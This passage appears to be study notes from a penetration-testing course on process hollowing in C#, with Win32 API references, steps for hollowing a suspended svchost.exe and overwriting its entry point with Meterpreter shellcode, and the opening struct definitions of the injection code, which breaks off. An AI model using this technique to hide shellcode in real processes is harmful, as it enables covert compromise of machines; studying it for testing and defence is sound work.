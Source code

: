 ```csharp
    }
}
```

**References:**

* https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessw
* https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-startupinfoa
* https://learn.microsoft.com/en-us/windows/win32/api/processthreadsapi/ns-processthreadsapi-process\_information
* https://docs.microsoft.com/en-us/windows/win32/procthread/zwqueryinformationprocess
* https://docs.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-readprocessmemory
* https://docs.microsoft.com/en-us/dotnet/api/system.bitconverter.toint64?view=netframework-4.8
* https://docs.microsoft.com/en-us/dotnet/api/system.uint32?view=netframework-4.8
* https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-resumethread
* First step is to create a suspended process with _CreateProcessW_.
  * The _dwCreationFlags_ argument is used to indicate our intention to launch the new process in a suspended state. We will set this to the numerical representation of _CREATE\_SUSPENDED_, which is 0x4.
  * We must pass a _STARTUPINFO_ structure, which can contain a number of values related to how the window of a new process should be configured.
  * The final argument is a _PROCESS\_INFORMATION_[4](https://portal.offsec.com/courses/pen-300/books-and-videos/modal/modules/process-injection-and-migration/process-hollowing/process-hollowing-in-c%23#fn4) structure that is populated by _CreateProcessW_ with identification information about the new process, including the process ID and a handle to the process.
* &#x20;we need to locate the EntryPoint by first disclosing the PEB from the PROCESS\_BASIC\_INFORMATION structure through _ZwQueryInformationProcess_
* The _ptrToImageBase_ variable now contains a pointer to the image base of svchost.exe in the suspended process. We will next use _ReadProcessMemory_ to fetch the address of the code base by reading eight bytes of memory.
* We do some math to obtain the address of the EntryPoint so we can generate our Meterpreter shellcode and use _WriteProcessMemory_ to overwrite the existing code
* Finally we can use the Win32 _ResumeThread_[10](https://portal.offsec.com/courses/pen-300/books-and-videos/modal/modules/process-injection-and-migration/process-hollowing/process-hollowing-in-c%23#fn10) API to let the suspended thread of a remote process continue its execution

```csharp
﻿using System;
using System.Runtime.InteropServices;

namespace ProcessHollowing
{
    public class Program
    {
        public const uint CREATE_SUSPENDED = 0x4;
        public const int PROCESSBASICINFORMATION = 0;

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Auto)]
        public struct ProcessInfo
        {
            public IntPtr hProcess;
            public IntPtr hThread;
            public Int32 ProcessId;
            public Int32 ThreadId;
        }

        [StructLayout(LayoutKind.Sequential, CharSet = CharSet.Auto)]
        public struct StartupInfo
        {
            public uint cb;
            public string lpReserved;
```